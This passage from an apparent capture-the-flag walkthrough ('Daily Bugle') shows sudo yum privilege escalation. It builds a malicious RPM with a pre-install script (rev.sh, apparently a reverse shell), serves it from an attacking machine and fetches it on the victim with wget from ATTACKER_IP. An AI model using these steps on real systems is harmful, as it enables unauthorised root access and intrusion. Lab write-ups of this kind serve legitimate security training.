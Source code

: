 ```bash
sudo gem install fpm
```

If we try to run the
[GTFOBin](https://gtfobins.github.io/gtfobins/yum/#sudo){:target="_blank"}{:rel="noopener noreferrer"}
command immediately we get the following error

![rpm error](/images/dailybugle/rpm-error.png)

We need to run `rpmbuild` so we also need to install the
`rpm` package

```bash
sudo apt-get install rpm
```

Now we should be able to build our package with the
command

```bash
fpm -n x -s dir -t rpm -a all --before-install rev.sh .
```

This will create a file called `x-1.0-1.noarch.rpm` we
need to upload to the machine. To upload we can
use a `python3` web server.

On the attacking machine run a web server in the same
directory as the `x-1.0-1.noarch.rpm` file

```bash
python3 -m http.server 80
```

On the victim machine we can grab this file with the
`wget` command

```bash
wget http://ATTACKER_IP/x-1.0-1.noarch.rpm
```

![rpm upload](/images/dailybugle/rpm-upload.png)
